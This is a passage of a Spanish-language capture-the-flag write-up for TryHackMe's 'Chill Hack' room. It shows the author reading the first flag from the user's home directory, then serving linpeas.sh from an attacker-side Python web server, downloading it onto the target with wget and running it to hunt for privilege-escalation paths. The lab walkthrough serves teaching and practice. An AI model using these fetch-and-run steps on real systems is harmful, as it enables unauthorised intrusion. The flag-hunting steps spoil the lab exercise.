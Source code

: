 Podemos comprobar si vemos algo en el home del usuario para ello hacemos
```bash
cd 
ls
```

Podemos encontrar un txt llamado local, el cual si lo leemos con un cat, podremos obtener la primera flag.
![imagen_hacking_chill-hack_20primeraflag.png](/imagen_hacking_chill-hack_20primeraflag.png)

> En este punto yo estaba en punto muerto, por lo que se ha intentado continuar siguiendo algunos write-up y se recomienda el uso de Linpeas
{.is-danger}

> Linpeas es un software de escaneo de vulnerabilidades y no se recomiendo bajo ninguna circunstancia el uso de esta herramienta para otra cosa que no sea hackeo ético y con el previo permiso del dueño del equipo.

Debido a que no tenemos forma ninguna de continuar, vamos a intentar usar una herramienta llamada Linpeas, que nos permitirá encontrar vulnerabilidades en el sistema.
Nos descargamos linpeas del github oficial: [Linpeas](https://github.com/peass-ng/PEASS-ng/tree/master). Nos vamos a descargar el [Linpeas.sh]()

Una vez descargado, vamos a abrir un pequeño servicio web, para que el equipo de TryHackMe lo descargue.
```python
python -m http.server 8000
```
> Ubicar linpeas en la misma carpeta donde abrís el servicio web.
{.is-warning}

![imagen_hacking_chill-hack_21pasarlinpeas.png](/imagen_hacking_chill-hack_21pasarlinpeas.png)

En nuestra shell, vamos a escribir lo siguiente:
```sh
wget http://10.9.3.9:8000/linpeas.sh
```
![imagen_hacking_chill-hack_22obtenerlinpeas.png](/imagen_hacking_chill-hack_22obtenerlinpeas.png)
Una vez lo descargamos, le damos permisos de ejecución y lo ejecutamos
```bash
chmod +x linpeas.sh
./linpeas.sh
```
